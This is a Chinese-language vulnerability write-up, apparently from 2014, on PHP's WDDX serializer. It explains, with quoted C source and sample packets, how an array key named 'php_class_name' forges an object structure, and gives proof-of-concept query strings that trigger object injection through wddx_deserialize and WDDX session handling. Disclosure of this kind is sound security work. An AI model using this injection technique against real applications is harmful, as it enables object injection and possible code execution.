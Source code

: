 ### PHP WDDX Serializier Data Injection Vulnerability
> Taoguang Chen <[@chtg](http://github.com/chtg)> - 2014.11.2

PHP 在把数组序列化为 WDDX 结构的过程中，没有对数组的键名严格限制，导致可以伪造对象的 WDDX 结构。

i 序列化对象
-------------------

PHP 在把对象序列化为 WDDX 结构时，会做如下处理：

``` php
static void php_wddx_serialize_object(wddx_packet *packet, zval *obj)
...
		php_wddx_add_chunk_static(packet, WDDX_STRUCT_S);
		snprintf(tmp_buf, WDDX_BUF_LEN, WDDX_VAR_S, PHP_CLASS_NAME_VAR);
		php_wddx_add_chunk(packet, tmp_buf);
		php_wddx_add_chunk_static(packet, WDDX_STRING_S);
		php_wddx_add_chunk_ex(packet, class_name->val, class_name->len);
		php_wddx_add_chunk_static(packet, WDDX_STRING_E);
		php_wddx_add_chunk_static(packet, WDDX_VAR_E);
}
```

比如下面代码中的变量 $obj：

``` php
class ryat {
	var $hi;
	function __wakeup() {
		echo 'hi';
	}
	function __destruct() {
		echo $this->hi, "\n";
	}
}

$obj = new ryat();
$obj->hi = 'ryat';

var_dump(wddx_serialize_value($obj));
```

经过 wddx_serialize_value() 函数序列化的 WDDX 结构如下：

``` php
<wddxPacket version='1.0'><header/><data><struct><var name='php_class_name'><string>ryat</string></var><var name='hi'><string>ryat</string></var></struct></data></wddxPacket>
```

ii 序列化数组
-------------------

PHP 把数组序列化为 WDDX 结构时，会做如下处理：

``` php
static void php_wddx_serialize_array(wddx_packet *packet, zval *arr)
{
...
	target_hash = HASH_OF(arr);
	ZEND_HASH_FOREACH_KEY(target_hash, idx, key) {
		if (key) {
			is_struct = 1;
			break;
		}

		if (idx != ind) {
			is_struct = 1;
			break;
		}
		ind++;
	} ZEND_HASH_FOREACH_END();

	if (is_struct) {
		php_wddx_add_chunk_static(packet, WDDX_STRUCT_S);
	} else {
		snprintf(tmp_buf, sizeof(tmp_buf), WDDX_ARRAY_S, zend_hash_num_elements(target_hash));
		php_wddx_add_chunk(packet, tmp_buf);
	}

	ZEND_HASH_FOREACH_KEY_VAL(target_hash, idx, key, ent) {
		if (ent == arr) {
			continue;
		}

		if (is_struct) {
			if (key) {
				php_wddx_serialize_var(packet, ent, key TSRMLS_CC);
			} else {
				key = zend_long_to_str(idx);
				php_wddx_serialize_var(packet, ent, key TSRMLS_CC);
				zend_string_release(key);
			}
		} else {
			php_wddx_serialize_var(packet, ent, NULL TSRMLS_CC);
		}
	} ZEND_HASH_FOREACH_END();
	
	if (is_struct) {
		php_wddx_add_chunk_static(packet, WDDX_STRUCT_E);
	} else {
		php_wddx_add_chunk_static(packet, WDDX_ARRAY_E);
	}
}
...
void php_wddx_serialize_var(wddx_packet *packet, zval *var, zend_string *name TSRMLS_DC)
{
...
	if (name) {
		char *tmp_buf;
		zend_string *name_esc;

		name_esc = php_escape_html_entities(name->val, name->len, 0, ENT_QUOTES, NULL TSRMLS_CC);
		tmp_buf = emalloc(name_esc->len + sizeof(WDDX_VAR_S));
		snprintf(tmp_buf, name_esc->len + sizeof(WDDX_VAR_S), WDDX_VAR_S, name_esc->val);
		php_wddx_add_chunk(packet, tmp_buf);
		efree(tmp_buf);
		zend_string_release(name_esc);
	}
```

从上面的代码可以看到，数组序列化后的 WDDX 结构主要分为两种，一种是没有指定键名的数组的处理，比如下面代码中的变量 $arr：

``` php
$arr = array('hi', 'ryat');

var_dump(wddx_serialize_value($arr));
```

经过 wddx_serialize_value() 函数序列化的 WDDX 结构如下：

``` php
<wddxPacket version='1.0'><header/><data><array length='2'><string>hi</string><string>ryat</string></array></data></wddxPacket>
```

另一种则是对指定键名的数组的处理，比如下面代码中的变量 $arr：

``` php
$arr = array('hi'=>'hi', 'ryat'=>'ryat');

var_dump(wddx_serialize_value($arr));
```

经过 wddx_serialize_value() 函数序列化的 WDDX 结构如下：

``` php
<wddxPacket version='1.0'><header/><data><struct><var name='hi'><string>hi</string></var><var name='ryat'><string>ryat</string></var></struct></data></wddxPacket>
```

iii 伪造对象的 WDDX 结构
-------------------

通过上面的分析，简单了解 WDDX 结构存储 PHP 数组和对象的具体格式，对象的存储格式和指定键名的数组的存储格式非常接近，区别只在于，对象的存储格式多了对类名的存储：

``` php
<var name='php_class_name'><string>ryat</string></var>
```

PHP 在把数组序列化 WDDX 结构过程中，仅仅调用了 php_escape_html_entities() 函数处理，然后直接构造 WDDX_VAR_S： 

``` php
#define WDDX_VAR_S				"<var name='%s'>"
```

那么如果数组中存在一个值为 php_class_name 的键名，就可以构造出：

``` php
<var name='php_class_name'><string>ryat</string></var>
```

这时序列化的 WDDX 结构就和对象的一样了，如下面代码中的变量 $arr：

``` php
$arr = array('php_class_name'=>'ryat', 'hi'=>'ryat');

var_dump(wddx_serialize_value($arr));
```

经过 wddx_serialize_value() 函数序列化的 WDDX 结构如下：

``` php
<wddxPacket version='1.0'><header/><data><struct><var name='php_class_name'><string>ryat</string></var><var name='hi'><string>ryat</string></var></struct></data></wddxPacket>
```

可以看到，序列化的 WDDX 结构和第一个例子中的 $obj 对象序列化的 WDDX 结构是一样的，也就说，通过一个特殊的数组伪造了一个对象的 WDDX 结构：）

iv 安全隐患
-------------------

PHP 反序列化 WDDX 结构的处理过程类似于 unserialize() 函数，通过对特定的 WDDX 结构反序列化，可以生成一个对象，并执行类的 \_\_wakeup() 方法（如果存在的话），在对象被销毁或者脚本执行结束时会执行类的 \_\_destruct() 方法（如果存在的话），那么安全隐患随之而来。而比 unserialize() 函数更危险的是，反序列化过程和序列化过程都可能存在安全问题：）

#### i) 利用 wddx_deserialize() 函数

``` php
class ryat {
	var $hi;
	function __wakeup() {
		echo 'hi';
	}
	function __destruct() {
		echo $this->hi, "\n";
	}
}

wddx_deserialize(wddx_serialize_value($_GET['arr']);
```

通过下面的方式，可以成功执行 \_\_wakeup() 方法和 \_\_destruct() 方法：）

```
?arr[php_class_name]=ryat&arr[hi]=ryat
```

#### ii) 利用 $\_SESSION 进行序列化和反序列化

PHP 在存储和读取 $\_SESSION 时会对数据进行序列化和反序列化，默认情况下与 serialize() 函数和 unserialize() 函数的处理方式相同，但是 PHP 提供了一个 session.serialize\_handler 配置选项，可以使用 WDDX 格式进行序列化和反序列化：）

```
ini_set('session.serialize_handler', 'wddx');
session_start();

$_SESSION['arr'] = $_GET['arr'];
```

通过下面的方式，就可以伪造成对象的 WDDX 结构：）

```
?arr[php_class_name]=ryat&arr[hi]=ryat
```

